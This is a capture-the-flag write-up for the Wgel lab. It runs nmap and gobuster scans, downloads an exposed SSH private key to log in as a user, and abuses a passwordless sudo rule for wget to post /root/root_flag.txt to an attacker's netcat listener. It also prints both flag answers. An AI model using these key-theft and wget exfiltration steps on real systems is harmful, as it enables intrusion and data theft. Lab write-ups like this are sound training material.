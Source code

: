 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1: Wgel CTF
### User flag
Let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.137.42
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-07 10:58 IST
Nmap scan report for 10.10.137.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.74 seconds
```
There are two open ports:

| Port | Service |
| :-: | :-: |
| 22 | ssh |
| 80 | http |
 
Let's check the `/index.html` page.

![2](https://github.com/Knign/Write-ups/assets/110326359/13405dca-4698-414d-b09a-38e72616c8b5)

We can view the page source using `CTRL+U`.

![3](https://github.com/Knign/Write-ups/assets/110326359/72cc6185-ca28-4cf0-8c12-523147d43078)

Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.137.42 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.137.42/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
We can visit the `/sitemap` page using our browser.
The webpage made my browser crash as soon as I visited it.

We can search one layer deeper.
```
$ gobuster dir -u http://10.10.137.42/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.137.42/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.10.137.42/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.137.42/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.137.42/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.137.42/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
We can now visit `/sitemap/.ssh` using our browser.

![4](https://github.com/Knign/Write-ups/assets/110326359/e250cbca-f702-4409-ba8d-10ec1d1184f1)

Let's download the `id_rsa` file using `wget`.
```
$ wget http://10.10.137.42/sitemap/.ssh/id_rsa
--2023-12-07 11:47:42--  http://10.10.137.42/sitemap/.ssh/id_rsa
Connecting to 10.10.137.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘id_rsa’

id_rsa                                                     100%[========================================================================================================================================>]   1.64K  --.-KB/s    in 0.1s    

2023-12-07 11:47:43 (13.6 KB/s) - ‘id_rsa’ saved [1675/1675]
```
- Let's change the permissions on the `id_rsa` file.
```
$ sudo chmod 700 id_rsa
```
Now we can login as `jessie`.
```
$ ssh -i id_rsa jessie@10.10.137.42
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Let's read the user flag.
```
jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```
### Answer
```
057c67131c3d5e42dd5cd3075b198ff6
```

&nbsp;

### Root flag
Let's check the permissions `jessie` has.
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
So we can post a file to our machine as `jessie` without using a password.
Let's start a listener using `nc`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
Let's send the file now.
```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.48.138:9999
--2023-12-07 08:58:16--  http://10.17.48.138:9999/
Connecting to 10.17.48.138:9999... connected.
HTTP request sent, awaiting response... 
```
We can go back to check the listener.
```
$ nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.137.42] 57776
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.17.48.138:9999
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```
### Answer
```
b1b968b37519ad1daa6408188649263d
```
